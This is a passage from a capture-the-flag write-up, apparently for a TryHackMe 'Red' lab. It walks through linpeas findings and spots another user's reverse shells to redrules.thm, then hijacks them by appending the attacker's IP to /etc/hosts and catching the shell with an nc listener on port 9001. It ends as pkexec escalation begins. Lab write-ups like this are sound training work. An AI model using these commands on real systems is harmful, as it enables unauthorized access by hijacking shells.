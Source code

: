 ## Notable things from Linpeas
Sudo version -- I found this [PoC](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit) with more information.

![105_image](https://github.com/NTHSec/CTF-Writeups/assets/150489159/2c8a9325-59ba-4fa5-8fd9-fd52c6959499)

Looking into this possible PrivEsc avenue, the system unfortunately does not seem vulnerable.

![108_image](https://github.com/NTHSec/CTF-Writeups/assets/150489159/d06592f4-8a1f-4ae1-941e-7fedb4974489)

The web config files:
![111_image](https://github.com/NTHSec/CTF-Writeups/assets/150489159/c0af6c16-1a3b-4859-9885-4d8212850310)

This revealed some interesting stuff, but nothing worthwhile.

## Seeing what Red is up to
Realizing the nature of this CTF, I wanted to see what the other users (in this case, Red), were up to. To do this, you can run `ps aux --forest | grep red`. If you run this command, you'll be able to see the hierarchy and relationship of any processes that match the string "red". 

![115_image](https://github.com/NTHSec/CTF-Writeups/assets/150489159/06adc0c8-df97-4556-88cd-61445eab3e9e)

These processes indicate that the user red has established reverse shell connections to the host redrules.thm on port 9001. This is a relatively common technique to maintain access or control over a machine (especially in a King Of The Hill (KOTH) setting).
 
With this in mind, let's see if we can read the /etc/hosts file and see what domains the machine is associating IPs to.
 
![122_image](https://github.com/NTHSec/CTF-Writeups/assets/150489159/b68bb2ea-31b6-4a83-b8b4-a6dd0f205908)

Looks like redrules.thm is running on an IP which isn’t on the box, which is interesting. Nevertheless, my thought process is that what if we send the revshell red is generating to OUR own ip under the redrules.thm domain? It would look something like this:

```bash
#Putting our IP in the /etc/hosts file via appending.
echo '10.2.113.254 redrules.THM' >> /etc/hosts

#Listening on our attacking machine with the same port we saw red using earlier.
nc -lvnp 9001
```

If we set up a listener on our kali machine on port 9001 and wait a little bit, we get in as red!

![127_image](https://github.com/NTHSec/CTF-Writeups/assets/150489159/77050894-19c1-4910-ba1b-71618257d7fa)

## Escalating Privileges
Now let’s explore some more of red’s home directory! The first thing that I noticed that we couldn’t read as the blue user is the `.git` directory. This contains something called **pkexec**, which I’ve never heard of.

